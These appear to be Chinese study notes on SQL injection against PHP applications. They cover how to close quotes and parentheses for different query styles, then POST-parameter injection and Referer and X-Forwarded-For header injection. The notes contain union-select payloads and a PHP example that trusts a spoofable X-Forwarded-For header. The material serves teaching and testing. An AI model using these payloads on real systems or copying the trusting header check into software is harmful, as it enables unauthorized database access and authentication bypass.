# PHP应用SQL注入&符号拼接&请求方法&HTTP头&JSON&编码类

​          SQL语句由于在黑盒中是无法预知写法的，SQL注入能发成功是需要拼接原SQL语句，大部分黑盒能做的就是分析后各种尝试去判断，所以有可能有注入但可能出现无法注入成功的情况。究其原因大部分都是原SQL语句的未知性导致的拼接失败！

由于开发者对于数据类型和SQL语句写法（框架写法）导致SQL注入拼接失败

字符型（有符号干扰）

select * from news where id='$id';

```
'union select 1,2,3,4,5,6--+    
```



搜索型（有多符号干扰）

select * from news where id like '%$id%'

```
%' union select 1,2,3,4,5,6--+
```



框架型（有各种符号干扰）

select * from news where id=('$id');

select * from news where (id='$id');

```
1') union select 1,2,3,4,5,6--+
```






# :game_die:请求方法​

****

POST请求


猜字段 因为用户名为字符串所以用==`==来闭合掉，==--+==来注释掉后面的内容

```
username=admin' order by 4--+&password=123
```

经过测试 参数为`3`时返回长度不一样没有报错字段为3



测试数据回显

```
union select 1,2,3--+&password=123
```



```
'union select 1,2,database()--+&password=123
```



头部信息





打开baidu.com 修改“视频”跳转的网址



来源变成了`www.baidu.com`



判断ip是不是在数据库中引发xff注入



```
$ip=getip();
//echo $ip;
if(isset($username)){
    //判断IP是不是在数据库中 引发xff注入 数据库存储ip导致的注入
    //IP配置到代码中 那就不是产生注入了
    //$sql="select * from admin where ip='$ip'";

    //绕过隐患 ip放在配置文件或代码申明中
    if($ip=='127.0.0.1'){
        echo "<script>alert('可以登录')</script>";
    }
    else{
        echo "<script>alert('拒绝访问')</script>";
    }
```


用HTTP_X_FORWARDED_FOR是有隐患的


固定型

```
if($ip=='127.0.0.2'){
    echo "<script>alert('可以登录')</script>";
}
else{
    echo "<script>alert('拒绝访问')</script>";
}
```



